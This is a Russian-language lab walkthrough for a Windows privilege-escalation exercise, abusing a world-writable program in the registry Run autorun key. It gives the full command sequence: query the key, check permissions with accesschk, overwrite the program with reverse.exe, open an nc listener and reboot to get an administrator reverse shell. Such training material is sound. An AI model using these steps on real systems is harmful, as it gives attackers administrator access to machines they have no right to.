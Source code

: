 # 🐾 7. Реестр - Автозапуск
---
## 📜 Описание задания
В этом задании мы будем использовать уязвимость в автозапуске программ через реестр Windows. Мы исследуем ключ реестра `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, чтобы найти исполняемый файл, доступный для записи всеми пользователями. Затем мы заменим его на наш файл `reverse.exe` и получим обратный шелл с привилегиями администратора.

---
## 🔍 Шаг 1: Проверка автозапусков в реестре
Сначала проверим ключ реестра `Run`, чтобы найти исполняемые файлы, которые запускаются автоматически. Выполните следующую команду:
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

### 📋 Ожидаемый вывод
- Убедитесь, что вы видите исполняемые файлы в разделе автозапуска.
![image](https://github.com/user-attachments/assets/53805b6e-dc99-40a1-963f-88bd85a782ae)

## 🔑 Шаг 2: Проверка прав доступа к файлу
Теперь используем инструмент `accesschk.exe`, чтобы проверить права доступа к одному из исполняемых файлов автозапуска. Выполните следующую команду:
`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

### 📋 Ожидаемый вывод
- Убедитесь, что файл `program.exe` доступен для записи всем пользователям.
![image](https://github.com/user-attachments/assets/7591fc76-7226-4a3f-99d3-67d9bc4e2f6c)

## 📝 Шаг 3: Замена исполняемого файла
Теперь мы заменим исполняемый файл `program.exe` на наш файл `reverse.exe`. Выполните следующую команду:
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" -Force`

### 📋 Ожидаемый вывод
- Убедитесь, что файл успешно заменен на `reverse.exe`.

## 🎧 Шаг 4: Запуск слушателя
Перед перезагрузкой виртуальной машины убедитесь, что у вас запущен слушатель на Kali. Выполните следующую команду для запуска слушателя на Kali:
`nc -lvnp 53`

## 🚀 Шаг 5: Перезагрузка машины
Теперь мы можем перезагрузить Windows VM, чтобы исполнился наш файл `reverse.exe` при запуске. После перезагрузки откроется новый сеанс RDP, который инициирует обратный шелл с привилегиями администратора.

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл с привилегиями администратора.
![image](https://github.com/user-attachments/assets/a146981e-2c65-47b9-a2ed-3f254e301997)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в автозапуске программ через реестр для получения обратного шелла с привилегиями администратора! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- В реальной атаке вам возможно придется подождать, пока администратор не войдет в систему самостоятельно, чтобы триггерить обратный шелл.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.

